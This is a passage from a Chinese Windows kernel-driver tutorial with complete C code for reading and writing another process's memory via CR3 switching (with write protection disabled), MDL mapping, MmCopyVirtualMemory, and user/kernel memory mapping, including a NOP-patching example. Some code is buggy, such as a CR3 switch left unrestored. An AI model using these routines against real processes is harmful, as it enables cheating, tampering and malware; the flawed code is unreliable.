    BOOLEAN bl = CR3_ReadProcessMemory(Peprocess, (PVOID)0x0009EDC8, 4, &buffer);

    DbgPrint("readbuf = %x \n", buffer);
    DbgPrint("readbuf = %d \n", buffer);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

读出后输出效果如下：



如下所示是一个在Windows操作系统下写入目标进程内存的函数，函数`CR3_WriteProcessMemory()`使用了`CR3`寄存器的切换来实现对特定进程内存地址的强制写操作。
```c
#include <ntifs.h>
#include <windef.h>
#include <intrin.h>

#define DIRECTORY_TABLE_BASE 0x028

#pragma  intrinsic(_disable)
#pragma  intrinsic(_enable)

NTKERNELAPI NTSTATUS PsLookupProcessByProcessId(HANDLE ProcessId, PEPROCESS *Process);
NTKERNELAPI CHAR* PsGetProcessImageFileName(PEPROCESS Process);

// 关闭写保护
KIRQL Open()
{
    KIRQL irql = KeRaiseIrqlToDpcLevel();
    UINT64 cr0 = __readcr0();
    cr0 &= 0xfffffffffffeffff;
    __writecr0(cr0);
    _disable();
    return irql;
}

// 开启写保护
void Close(KIRQL irql)
{
    UINT64 cr0 = __readcr0();
    cr0 |= 0x10000;
    _enable();
    __writecr0(cr0);
    KeLowerIrql(irql);
}

// 检查内存
ULONG64 CheckAddressVal(PVOID p)
{
    if (MmIsAddressValid(p) == FALSE)
        return 0;
    return *(PULONG64)p;
}

// CR3 寄存器写内存
BOOLEAN CR3_WriteProcessMemory(IN PEPROCESS Process, IN PVOID Address, IN UINT32 Length, IN PVOID Buffer)
{
    ULONG64 pDTB = 0, OldCr3 = 0, vAddr = 0;

    // 检查内存
    pDTB = CheckAddressVal((UCHAR*)Process + DIRECTORY_TABLE_BASE);
    if (pDTB == 0)
    {
        return FALSE;
    }

    _disable();

    // 读取CR3
    OldCr3 = __readcr3();

    // 写CR3
    __writecr3(pDTB);
    _enable();

    // 验证并拷贝内存
    if (MmIsAddressValid(Address))
    {
        RtlCopyMemory(Address, Buffer, Length);
        return TRUE;
    }
    _disable();

    // 恢复CR3
    __writecr3(OldCr3);
    _enable();
    return FALSE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    // 根据PID打开进程
    PEPROCESS Peprocess = NULL;
    DWORD PID = 6672;
    NTSTATUS nt = PsLookupProcessByProcessId((HANDLE)PID, &Peprocess);

    DWORD buffer = 999;

    BOOLEAN bl = CR3_WriteProcessMemory(Peprocess, (PVOID)0x0009EDC8, 4, &buffer);
    DbgPrint("写出状态: %d \n", bl);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
写出后效果如下：



### 3.3 内核MDL读写进程内存

MDL内存读写是一种通过创建MDL结构体来实现跨进程内存读写的方式。在Windows操作系统中，每个进程都有自己独立的虚拟地址空间，不同进程之间的内存空间是隔离的。因此，要在一个进程中读取或写入另一个进程的内存数据，需要先将目标进程的物理内存映射到当前进程的虚拟地址空间中，然后才能进行内存读写操作。

MDL结构体是Windows内核中专门用于描述物理内存的数据结构，它包含了一系列的数据元素，包括物理地址、长度、内存映射的虚拟地址等信息。通过创建MDL结构体并调用系统函数将其映射到当前进程的虚拟地址空间中，即可实现跨进程内存读写的操作。

相比于CR3切换方式，MDL内存读写更加稳定、安全，且不会受到寄存器的影响。同时，使用MDL内存读写方式还可以充分利用Windows操作系统的内存管理机制，从而实现更为高效的内存读写操作。因此，MDL内存读写是Windows操作系统中最为常用和推荐的一种跨进程内存读写方式。

#### 3.1.1 MDL读取内存步骤

 - 1.调用`PsLookupProcessByProcessId`得到进程`Process`结构，这个函数是用于根据进程ID查找对应的进程对象的函数，通过传入的参数 `data->pid` 获取到对应的进程ID，然后通过调用 `PsLookupProcessByProcessId` 函数获取对应的 `PEPROCESS` 结构。如果获取失败则返回 FALSE。

 - 2.调用`KeStackAttachProcess`附加到对端进程内，在内核模式下，读取其他进程的内存时需要先附加到对应进程的上下文中，才能读取该进程的内存。因此，这里调用 `KeStackAttachProcess` 函数将当前线程切换到目标进程的上下文中。同时，为了在后面可以正确地从目标进程的上下文中返回，还需要保存当前进程的上下文状态。

 - 3.调用`ProbeForRead`检查内存是否可读写，在内核模式下，需要保证访问其他进程的内存是合法的，因此需要先调用 `ProbeForRead` 函数检查读取的内存空间是否可读写。如果该空间不可读写，则会触发异常，这里通过异常处理机制来处理这种情况。

 - 4.拷贝内存空间中的数据到自己的缓冲区内，在完成对内存空间的检查后，使用 `RtlCopyMemory` 函数将目标进程的内存数据拷贝到自己的缓冲区中。这里需要注意的是，由于内存空间可能很大，因此可能需要多次进行拷贝操作。

 - 5.调用`KeUnstackDetachProcess`接触绑定，在读取完内存数据后，需要将当前线程从目标进程的上下文中解除绑定，以便返回到原来的上下文中。这里调用 `KeUnstackDetachProcess` 函数完成解绑操作，同时恢复之前保存的当前进程的上下文状态。

 - 6.调用`ObDereferenceObject`使对象引用数减1，由于在第一步中调用了 `PsLookupProcessByProcessId` 函数获取了对应进程的 `PEPROCESS` 结构，因此需要调用 `ObDereferenceObject` 函数将其引用计数减1，以便释放对该对象的引用。


有了上述具体实现方法，那么我们就可以封装`MDLReadMemory()`内存读函数了，代码如下，该函数用于在 Windows 内核模式下读取指定进程的内存数据。下面是对这个函数的详细步骤分析：

 - 1.通过进程 ID 找到对应的进程对象：`PsLookupProcessByProcessId` 用于通过进程 ID 查找对应的进程对象。如果找不到该进程对象，则直接返回 FALSE。
```c
PsLookupProcessByProcessId(data->pid, &process);
```
 - 2.在内核模式下，必须使用内核提供的函数来分配内存。这里使用的是 `ExAllocatePool` 函数，用于在内核堆中分配指定大小的内存缓冲区。如果分配失败，则返回 FALSE。
```c
BYTE* GetData;
__try
{
    GetData = ExAllocatePool(PagedPool, data->size);
}
__except (1)
{
    return FALSE;
}
```

 - 3.在内核模式下，访问其他进程的内存必须先将当前进程的上下文切换到目标进程的上下文。这里使用的是 `KeStackAttachProcess` 函数，将当前进程的上下文切换到目标进程的上下文。同时，为了在后面可以正确地从目标进程的上下文中返回，还需要保存当前进程的上下文状态。
 ```c
KAPC_STATE stack = { 0 };
KeStackAttachProcess(process, &stack);
 ```

 - 4.读取目标进程的内存数据，这段代码使用 `ProbeForRead` 函数检查要读取的内存区域是否合法，并且将目标进程的内存数据读取到之前分配的内存缓冲区中。如果读取过程中出现异常，则返回 FALSE。
 ```c
__try
{
    ProbeForRead(data->address, data->size, 1);
    RtlCopyMemory(GetData, data->address, data->size);
}
__except (1)
{
    bRet = FALSE;
}
 ```

 - 5.恢复当前进程的上下文，这里使用的是 `ObDereferenceObject` 函数和 `KeUnstackDetachProcess` 函数，用于恢复之前保存的当前进程的上下文状态，同时解除对目标进程的引用计数。
```c
ObDereferenceObject(process);
KeUnstackDetachProcess(&stack);
```

 - 6.将读取的数据拷贝到输出参数中，将读取到的数据拷贝到输出参数中，并释放之前分配的内存缓冲区。
 ```c
RtlCopyMemory(data->data, GetData, data->size);
 ```

将如上代码片段整合起来即可得到一个完整的内存读数据案例，读者可传入一个结构体实现对特定进程特定内存的动态读取功能，完整代码如下所示；
```c
#include <ntifs.h>
#include <windef.h>

typedef struct
{
    DWORD pid;                // 要读写的进程ID
    DWORD64 address;          // 要读写的地址
    DWORD size;               // 读写长度
    BYTE* data;               // 要读写的数据
}ReadMemoryStruct;

// MDL读内存
BOOL MDLReadMemory(ReadMemoryStruct* data)
{
    BOOL bRet = TRUE;
    PEPROCESS process = NULL;

    PsLookupProcessByProcessId(data->pid, &process);

    if (process == NULL)
    {
        return FALSE;
    }

    BYTE* GetData;
    __try
    {
        GetData = ExAllocatePool(PagedPool, data->size);
    }
    __except (1)
    {
        return FALSE;
    }

    KAPC_STATE stack = { 0 };
    KeStackAttachProcess(process, &stack);

    __try
    {
        ProbeForRead(data->address, data->size, 1);
        RtlCopyMemory(GetData, data->address, data->size);
    }
    __except (1)
    {
        bRet = FALSE;
    }

    ObDereferenceObject(process);
    KeUnstackDetachProcess(&stack);
    RtlCopyMemory(data->data, GetData, data->size);
    ExFreePool(GetData);
    return bRet;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark \n"));

    ReadMemoryStruct ptr;

    ptr.pid = 6672;
    ptr.address = 0x402c00;
    ptr.size = 100;

    // 分配空间接收数据
    ptr.data = ExAllocatePool(PagedPool, ptr.size);

    // 读内存
    MDLReadMemory(&ptr);

    // 输出数据
    for (size_t i = 0; i < 100; i++)
    {
        DbgPrint("%x \n", ptr.data[i]);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

读取内存地址`0x402c00`效果如下所示：



#### 3.1.2 MDL写入内存步骤

 - 1.首先需要通过调用`PsLookupProcessByProcessId`函数获取目标进程的进程结构，该函数将根据传递的进程ID返回对应进程的`PEPROCESS`结构体，该结构体中包含了进程的各种信息。

 - 2.接下来使用`KeStackAttachProcess`函数附加到目标进程的上下文环境中，以便可以读取和写入该进程的内存空间。该函数将当前线程的上下文环境切换到目标进程的上下文环境中，使得该线程可以访问和修改目标进程的内存。

 - 3.在进行内存写入操作之前，需要调用`ProbeForRead`函数来检查要写入的内存空间是否可读写。这个步骤是为了确保要写入的内存空间没有被保护或被其他进程占用，以避免对系统造成不良影响。

 - 4.如果检查通过，接下来需要将目标进程的内存空间中的数据拷贝到当前进程的缓冲区中，以便进行修改操作。

 - 5.接下来需要调用`MmMapLockedPages`函数来锁定当前内存页面，以便可以对其进行修改。该函数将返回一个指向系统虚拟地址的指针，该地址是由系统自动分配的。在写入完成后，需要使用`MmUnmapLockedPages`函数来释放锁定的内存页面。

 - 6.然后，使用`RtlCopyMemory`函数完成内存拷贝操作，将缓冲区中的数据写入到锁定的内存页面中。

 - 7.写入操作完成后，需要调用`IoFreeMdl`函数来释放MDL锁。MDL锁用于锁定MDL描述的内存页面，以便可以对其进行操作。

 - 8.最后使用`KeUnstackDetachProcess`函数解除当前进程与目标进程之间的绑定，使得当前线程的上下文环境恢复到原始的状态。

此外在完成MDL写入内存操作后，还需要调用`ObDereferenceObject`函数将MDL对象的引用计数减1，以便在不再需要该对象时释放它所占用的系统资源。

从如上分析来看写入时与读取基本类似，只是多了锁定页面和解锁操作，这段MDL写内存完整实现代码如下所示；
```c
#include <ntifs.h>
#include <windef.h>

typedef struct
{
    DWORD pid;                // 要读写的进程ID
    DWORD64 address;          // 要读写的地址
    DWORD size;               // 读写长度
    BYTE* data;               // 要读写的数据
}WriteMemoryStruct;

// MDL写内存
BOOL MDLWriteMemory(WriteMemoryStruct* data)
{
    BOOL bRet = TRUE;
    PEPROCESS process = NULL;

    PsLookupProcessByProcessId(data->pid, &process);
    if (process == NULL)
    {
        return FALSE;
    }

    BYTE* GetData;
    __try
    {
        GetData = ExAllocatePool(PagedPool, data->size);
    }
    __except (1)
    {
        return FALSE;
    }

    for (int i = 0; i < data->size; i++)
    {
        GetData[i] = data->data[i];
    }

    KAPC_STATE stack = { 0 };
    KeStackAttachProcess(process, &stack);

    PMDL mdl = IoAllocateMdl(data->address, data->size, 0, 0, NULL);
    if (mdl == NULL)
    {
        return FALSE;
    }

    MmBuildMdlForNonPagedPool(mdl);

    BYTE* ChangeData = NULL;

    __try
    {
        ChangeData = MmMapLockedPages(mdl, KernelMode);
        RtlCopyMemory(ChangeData, GetData, data->size);
    }
    __except (1)
    {
        bRet = FALSE;
        goto END;
    }

END:
    IoFreeMdl(mdl);
    ExFreePool(GetData);
    KeUnstackDetachProcess(&stack);
    ObDereferenceObject(process);

    return bRet;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark \n"));

    WriteMemoryStruct ptr;

    ptr.pid = 6672;
    ptr.address = 0x402c00;
    ptr.size = 5;

    // 需要写入的数据
    ptr.data = ExAllocatePool(PagedPool, ptr.size);

    // 循环设置
    for (size_t i = 0; i < 5; i++)
    {
        ptr.data[i] = 0x90;
    }

    // 写内存
    MDLWriteMemory(&ptr);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

写出效果如下：




### 3.4 通过内存拷贝读写内存

文主要介绍了`Windows`内核中的一种读写内存的方式：内存拷贝。内存拷贝的实现方式是通过调用内核API函数`MmCopyVirtualMemory`来实现的。该函数的作用是将源进程中的虚拟内存区域复制到目标进程的虚拟内存区域，从而实现内存的拷贝读写。

内存拷贝相比于其他的内存读写方式，其实现比较简单，效率也较高。但是需要注意的是，内存拷贝需要对源地址和目标地址进行合法性检查，并且需要保证源地址和目标地址的访问权限。在实现内存拷贝时，需要注意这些问题，以确保内存拷贝的正确性和安全性。

除了内存拷贝，还有其他的内存读写方式，如CR3读写和MDL读写等。这些读写方式都有其自身的优缺点，需要根据具体的应用场景选择合适的读写方式。在实际开发中，需要综合考虑内存读写的效率、安全性和可靠性等因素，选择最适合的内存读写方式。

首先封装`KeReadProcessMemory()`内存读取函数，其实现方式是通过调用`MmCopyVirtualMemory`函数实现的。

具体来说，该函数首先获取当前进程的`PEPROCESS`结构体指针，然后调用`MmCopyVirtualMemory`函数，将目标进程中指定地址范围的内存数据拷贝到当前进程中指定的地址上。函数的返回值是一个`NTSTATUS`类型的状态码，用于表示读取操作的结果。

在函数的实现过程中，还包含了一个异常处理语句`__except`，用于捕获读取内存时可能发生的异常。如果发生异常，则函数会返回`STATUS_ACCESS_DENIED`表示读取操作失败。

需要注意的是，该函数只能在内核模式下使用，而不能在用户模式下使用。此外，该函数需要确保源地址和目标地址的合法性，并且需要保证当前进程具有访问目标进程内存的权限，否则将返回`STATUS_ACCESS_DENIED`表示读取操作失败。
```c
#include <ntifs.h>
#include <windef.h>
#include <stdlib.h>

NTKERNELAPI NTSTATUS PsLookupProcessByProcessId(HANDLE ProcessId, PEPROCESS *Process);
NTKERNELAPI CHAR* PsGetProcessImageFileName(PEPROCESS Process);
NTSTATUS NTAPI MmCopyVirtualMemory(PEPROCESS SourceProcess, PVOID SourceAddress, PEPROCESS TargetProcess, PVOID TargetAddress, SIZE_T BufferSize, KPROCESSOR_MODE PreviousMode, PSIZE_T ReturnSize);

// 定义全局EProcess结构
PEPROCESS Global_Peprocess = NULL;

// 普通Ke内存读取
NTSTATUS KeReadProcessMemory(PVOID SourceAddress, PVOID TargetAddress, SIZE_T Size)
{
    __try
    {
        PEPROCESS TargetProcess = PsGetCurrentProcess();
        SIZE_T Result;
        if (NT_SUCCESS(MmCopyVirtualMemory(Global_Peprocess, SourceAddress, TargetProcess, TargetAddress, Size, KernelMode, &Result)))
            return STATUS_SUCCESS;
        else
            return STATUS_ACCESS_DENIED;
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        return STATUS_ACCESS_DENIED;
    }
    return STATUS_ACCESS_DENIED;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("Uninstall Driver Is OK \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    // 根据PID打开进程
    DWORD PID = 6672;
    NTSTATUS nt = PsLookupProcessByProcessId((HANDLE)PID, &Global_Peprocess);

    DWORD ref_value = 0;

    // 将地址处读取4字节到ref_value中
    NTSTATUS read_nt = KeReadProcessMemory((PVOID)0x0009EDC8, &ref_value, 4);

    DbgPrint("读出数据: %d \n", ref_value);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译如上所示代码，并运行即可输出读取数据，读取效果如下图所示：



有了读取函数，接下来则是封装`KeWriteProcessMemory()`内存写入函数，其实现方式是通过调用`MmCopyVirtualMemory`函数实现。

具体来说，该函数首先获取当前进程的`PEPROCESS`结构体指针，作为源进程；然后将全局变量`Global_Peprocess`作为目标进程；接着调用`MmCopyVirtualMemory`函数，将当前进程中指定地址范围的内存数据拷贝到目标进程中指定的地址上。函数的返回值是一个`NTSTATUS`类型的状态码，用于表示写入操作的结果。

在函数的实现过程中，需要注意保证源地址和目标地址的合法性，并且需要保证当前进程具有向目标进程内存写入数据的权限，否则将返回`STATUS_ACCESS_DENIED`表示写入操作失败。
```c
#include <ntifs.h>
#include <windef.h>
#include <stdlib.h>

NTKERNELAPI NTSTATUS PsLookupProcessByProcessId(HANDLE ProcessId, PEPROCESS *Process);
NTKERNELAPI CHAR* PsGetProcessImageFileName(PEPROCESS Process);
NTSTATUS NTAPI MmCopyVirtualMemory(PEPROCESS SourceProcess, PVOID SourceAddress, PEPROCESS TargetProcess, PVOID TargetAddress, SIZE_T BufferSize, KPROCESSOR_MODE PreviousMode, PSIZE_T ReturnSize);

// 定义全局EProcess结构
PEPROCESS Global_Peprocess = NULL;


// 普通Ke内存写入
NTSTATUS KeWriteProcessMemory(PVOID SourceAddress, PVOID TargetAddress, SIZE_T Size)
{
    PEPROCESS SourceProcess = PsGetCurrentProcess();
    PEPROCESS TargetProcess = Global_Peprocess;
    SIZE_T Result;

    if (NT_SUCCESS(MmCopyVirtualMemory(SourceProcess, SourceAddress, TargetProcess, TargetAddress, Size, KernelMode, &Result)))
        return STATUS_SUCCESS;
    else
        return STATUS_ACCESS_DENIED;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("Uninstall Driver Is OK \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    // 根据PID打开进程
    DWORD PID = 6672;
    NTSTATUS nt = PsLookupProcessByProcessId((HANDLE)PID, &Global_Peprocess);

    DWORD ref_value = 10;

    // 将地址处写出4字节
    NTSTATUS read_nt = KeWriteProcessMemory((PVOID)0x0009EDC8, &ref_value, 4);

    DbgPrint("写入数据: %d \n", ref_value);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译如上所示代码，并运行即可输出读取数据，写出效果如下图所示：



### 3.5 内核R3与R0内存映射

在上一篇博文`《内核通过PEB得到进程参数》`中我们通过使用`KeStackAttachProcess`附加进程的方式得到了该进程的PEB结构信息，本篇文章同样需要使用进程附加功能，但这次我们将实现一个更加有趣的功能，在某些情况下应用层与内核层需要共享一片内存区域通过这片区域可打通内核与应用层的隔离，此类功能的实现依附于MDL内存映射机制实现。

#### 3.5.1 应用层映射到内核层

先来实现将R3内存数据拷贝到R0中，功能实现所调用的API如下:

 - 调用`IoAllocateMdl`创建一个`MDL`结构体。这个结构体描述了一个要锁定的内存页的位置和大小。
 - 调用`MmProbeAndLockPages`用于锁定创建的地址其中`UserMode`代表用户层,`IoReadAccess`以读取的方式锁定
 - 调用`MmGetSystemAddressForMdlSafe`用于从`MDL`中得到映射内存地址
 - 调用`RtlCopyMemory`用于内存拷贝,将`DstAddr`应用层中的数据拷贝到`pMappedSrc`中
 - 调用`MmUnlockPages`拷贝结束后解锁`pSrcMdl`
 - 调用`IoFreeMdl`释放之前创建的`MDL`结构体。

如上则是应用层数据映射到内核中的流程，我们将该流程封装成`SafeCopyMemory_R3_to_R0`方便后期的使用，函数对数据的复制进行了分块操作，因此可以处理更大的内存块。

下面是对该函数的分析：

 - 1.首先进行一些参数的检查，如果有任何一个参数为0，那么函数就会返回 `STATUS_UNSUCCESSFUL`。

 - 2.使用一个 `while` 循环来分块复制数据，每个块的大小为 `PAGE_SIZE` (通常是4KB)。这个循环在整个内存范围内循环，每次复制一个内存页的大小，直到复制完整个内存范围。

 - 3.在循环内部，首先根据起始地址和当前要复制的大小来确定本次要复制的大小。如果剩余的内存不足一页大小，则只复制剩余的内存。

 - 4.调用 `IoAllocateMdl` 创建一个 `MDL`，表示要锁定和复制的内存页。这里使用了 `(PVOID)(SrcAddr & 0xFFFFFFFFFFFFF000)` 来确定页的起始地址。因为页的大小为 `0x1000`，因此在计算页的起始地址时，将 `SrcAddr` 向下舍入到最接近的 `0x1000` 的倍数。

 - 5.如果 `IoAllocateMdl` 成功，则调用 `MmProbeAndLockPages` 来锁定页面。这个函数将页面锁定到物理内存中，并返回一个虚拟地址，该虚拟地址指向已锁定页面的内核地址。

 - 6.使用 `MmGetSystemAddressForMdlSafe` 函数获取一个映射到内核空间的地址，该地址可以直接访问锁定的内存页。

 - 6.如果获取到了映射地址，则使用 `RtlCopyMemory` 函数将要复制的数据从应用层内存拷贝到映射到内核空间的地址。在复制结束后，使用 `MmUnlockPages` 函数解锁内存页，释放对页面的访问权限。

最后，释放 `MDL` 并更新 `SrcAddr` 和 `DstAddr` 以复制下一个内存块。如果复制过程中发生任何异常，函数将返回 `STATUS_UNSUCCESSFUL`。

总的来说，这个函数是一个很好的实现，它遵循了内核驱动程序中的最佳实践，包括对内存的安全处理、分块复制、错误处理等。
```c
#include <ntifs.h>
#include <windef.h>

// 分配内存
void* RtlAllocateMemory(BOOLEAN InZeroMemory, SIZE_T InSize)
{
    void* Result = ExAllocatePoolWithTag(NonPagedPool, InSize, 'lysh');
    if (InZeroMemory && (Result != NULL))
        RtlZeroMemory(Result, InSize);
    return Result;
}

// 释放内存
void RtlFreeMemory(void* InPointer)
{
    ExFreePool(InPointer);
}

/*
将应用层中的内存复制到内核变量中

SrcAddr  r3地址要复制
DstAddr  R0申请的地址
Size     拷贝长度
*/
NTSTATUS SafeCopyMemory_R3_to_R0(ULONG_PTR SrcAddr, ULONG_PTR DstAddr, ULONG Size)
{
    NTSTATUS status = STATUS_UNSUCCESSFUL;
    ULONG nRemainSize = PAGE_SIZE - (SrcAddr & 0xFFF);
    ULONG nCopyedSize = 0;

    if (!SrcAddr || !DstAddr || !Size)
    {
        return status;
    }

    while (nCopyedSize < Size)
    {
        PMDL pSrcMdl = NULL;
        PVOID pMappedSrc = NULL;

        if (Size - nCopyedSize < nRemainSize)
        {
            nRemainSize = Size - nCopyedSize;
        }

        // 创建MDL
        pSrcMdl = IoAllocateMdl((PVOID)(SrcAddr & 0xFFFFFFFFFFFFF000), PAGE_SIZE, FALSE, FALSE, NULL);
        if (pSrcMdl)
        {
            __try
            {
                // 锁定内存页面(UserMode代表应用层)
                MmProbeAndLockPages(pSrcMdl, UserMode, IoReadAccess);

                // 从MDL中得到映射内存地址
                pMappedSrc = MmGetSystemAddressForMdlSafe(pSrcMdl, NormalPagePriority);
            }
            __except (EXCEPTION_EXECUTE_HANDLER)
            {
            }
        }

        if (pMappedSrc)
        {
            __try
            {
                // 将MDL中的映射拷贝到pMappedSrc内存中
                RtlCopyMemory((PVOID)DstAddr, (PVOID)((ULONG_PTR)pMappedSrc + (SrcAddr & 0xFFF)), nRemainSize);
            }
            __except (1)
            {
                // 拷贝内存异常
            }

            // 释放锁
            MmUnlockPages(pSrcMdl);
        }

        if (pSrcMdl)
        {
            // 释放MDL
            IoFreeMdl(pSrcMdl);
        }

        if (nCopyedSize)
        {
            nRemainSize = PAGE_SIZE;
        }

        nCopyedSize += nRemainSize;
        SrcAddr += nRemainSize;
        DstAddr += nRemainSize;
    }

    status = STATUS_SUCCESS;
    return status;
}
```

有了封装好的`SafeCopyMemory_R3_to_R0`函数，那么接下来就是使用该函数实现应用层到内核层中的拷贝，为了能实现拷贝我们需要做以下几个准备工作；

 - 1.使用`PsLookupProcessByProcessId`函数通过进程ID查找到对应的`EProcess`结构体，以获取该进程在内核中的信息。
 - 2.使用`KeStackAttachProcess`函数将当前进程的执行上下文切换到指定进程的上下文，以便能够访问该进程的内存。
 - 3.使用`RtlAllocateMemory`函数在当前进程的内存空间中分配一块缓冲区，用于存储从指定进程中读取的数据。
 - 4.调用`SafeCopyMemory_R3_to_R0`函数将指定进程的内存数据拷贝到分配的缓冲区中。
 - 5.将缓冲区中的数据转换为`BYTE`类型的指针，并将其输出。

PsLookupProcessByProcessId函数用于通过进程ID查找到对应的EProcess结构体，这个结构体是Windows操作系统内核中用于表示一个进程的数据结构。
```c
NTSTATUS status = PsLookupProcessByProcessId(ProcessId, &ProcessObject);
if (!NT_SUCCESS(status)) {
    return status;
}
```
KeStackAttachProcess函数将当前进程的执行上下文切换到指定进程的上下文，以便能够访问该进程的内存。这个函数也只能在内核态中调用。
```c
KeStackAttachProcess(ProcessObject, &ApcState);
```
RtlAllocateMemory函数在当前进程的内存空间中分配一块缓冲区，用于存储从指定进程中读取的数据。这个函数是Windows操作系统内核中用于动态分配内存的函数，其中第一个参数TRUE表示允许操作系统在分配内存时进行页面合并，以减少内存碎片的产生。第二个参数nSize表示需要分配的内存空间的大小。如果分配失败，就需要将之前的操作撤销并返回错误状态。
```c
PVOID pTempBuffer = RtlAllocateMemory(TRUE, nSize);
if (pTempBuffer == NULL) {
    KeUnstackDetachProcess(&ApcState);
    ObDereferenceObject(ProcessObject);
    return STATUS_NO_MEMORY;
}
```
SafeCopyMemory_R3_to_R0函数将指定进程的内存数据拷贝到分配的缓冲区中。
```c
if (!SafeCopyMemory_R3_to_R0(ModuleBase, pTempBuffer, nSize)) {
    RtlFreeMemory(pTempBuffer);
    KeUnstackDetachProcess(&ApcState);
    ObDereferenceObject(ProcessObject);
    return STATUS_UNSUCCESSFUL;
}
```
最后，将缓冲区中的数据转换为BYTE类型的指针，并将其输出。需要注意的是，在返回之前需要先将当前进程的执行上下文切换回原先的上下文。
```c
BYTE* data = (BYTE*)pTempBuffer;
KeUnstackDetachProcess(&ApcState);
ObDereferenceObject(ProcessObject);
return data;
```

如上实现细节用一段话总结，首先`PsLookupProcessByProcessId`得到进程`EProcess`结构，并`KeStackAttachProcess`附加进程，声明`pTempBuffer`指针用于存储`RtlAllocateMemory`开辟的内存空间，`nSize`则代表读取应用层进程数据长度，`ModuleBase`则是读入进程基址，调用`SafeCopyMemory_R3_to_R0`即可将应用层数据拷贝到内核空间，并最终`BYTE* data`转为BYTE字节的方式输出。这样就完成了将指定进程的内存数据拷贝到当前进程中的操作。
```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    NTSTATUS status = STATUS_UNSUCCESSFUL;
    PEPROCESS eproc = NULL;
    KAPC_STATE kpc = { 0 };

    __try
    {
        // HANDLE 进程PID
        status = PsLookupProcessByProcessId((HANDLE)4556, &eproc);

        if (NT_SUCCESS(status))
        {
            // 附加进程
            KeStackAttachProcess(eproc, &kpc);

            // -------------------------------------------------------------------
            // 开始映射
            // -------------------------------------------------------------------

            // 将用户空间内存映射到内核空间
            PVOID pTempBuffer = NULL;
            ULONG nSize = 0x1024;
            ULONG_PTR ModuleBase = 0x0000000140001000;

            // 分配内存
            pTempBuffer = RtlAllocateMemory(TRUE, nSize);
            if (pTempBuffer)
            {
                // 拷贝数据到R0
                status = SafeCopyMemory_R3_to_R0(ModuleBase, (ULONG_PTR)pTempBuffer, nSize);
                if (NT_SUCCESS(status))
                {
                    DbgPrint("[*] 拷贝应用层数据到内核里 \n");
                }

                // 转成BYTE方便读取
                BYTE* data = pTempBuffer;

                for (size_t i = 0; i < 10; i++)
                {
                    DbgPrint("%02X \n", data[i]);
                }
            }

            // 释放空间
            RtlFreeMemory(pTempBuffer);

            // 脱离进程
            KeUnstackDetachProcess(&kpc);
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        Driver->DriverUnload = UnDriver;
        return STATUS_SUCCESS;
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

代码运行后即可将进程中`0x0000000140001000`处的数据读入内核空间并输出：



#### 3.5.2 内核层映射到应用层

与上方功能实现相反`SafeCopyMemory_R0_to_R3`函数则用于将一个内核层中的缓冲区写出到应用层中，`SafeCopyMemory_R0_to_R3`函数接收源地址SrcAddr、要复制的数据长度`Length`以及目标地址`DstAddr`作为参数，其写出流程可总结为如下步骤:

 - 1.使用`IoAllocateMdl`函数分别为源地址`SrcAddr`和目标地址`DstAddr`创建两个内存描述列表（MDL）。

 - 2.使用`MmBuildMdlForNonPagedPool`函数，将源地址的`MDL`更新为描述非分页池的虚拟内存缓冲区，并更新`MDL`以描述底层物理页。

 - 3.通过两次调用`MmGetSystemAddressForMdlSafe`函数，分别获取源地址和目标地址的指针，即`pSrcMdl`和`pDstMdl`。

 - 4.使用`MmProbeAndLockPages`函数以写入方式锁定用户空间中`pDstMdl`指向的地址，并将它的虚拟地址映射到物理内存页，从而确保该内存页在复制期间不会被交换出去或被释放掉。

 - 5.然后使用`MmMapLockedPagesSpecifyCache`函数将锁定的用户空间内存页映射到内核空间，并返回内核空间中的虚拟地址。

 - 6.最后使用`RtlCopyMemory`函数将源地址的数据复制到目标地址。

 - 7.使用`MmUnlockPages`函数解除用户空间内存页的锁定，并使用`MmUnmapLockedPages`函数取消内核空间与用户空间之间的内存映射。

 - 8.最后释放源地址和目标地址的`MDL`，使用`IoFreeMdl`函数进行释放。

内存拷贝`SafeCopyMemory_R0_to_R3`函数，函数首先分配源地址和目标地址的`MDL`结构，然后获取它们的虚拟地址，并以写入方式锁定目标地址的`MDL`，最后使用`RtlCopyMemory`函数将源地址的内存数据拷贝到目标地址。拷贝完成后，函数解锁目标地址的`MDL`，并返回操作状态。

封装代码`SafeCopyMemory_R0_to_R3()`功能如下:

```c
// 分配内存
void* RtlAllocateMemory(BOOLEAN InZeroMemory, SIZE_T InSize)
{
    void* Result = ExAllocatePoolWithTag(NonPagedPool, InSize, 'lysh');
    if (InZeroMemory && (Result != NULL))
        RtlZeroMemory(Result, InSize);
    return Result;
}

// 释放内存
void RtlFreeMemory(void* InPointer)
{
    ExFreePool(InPointer);
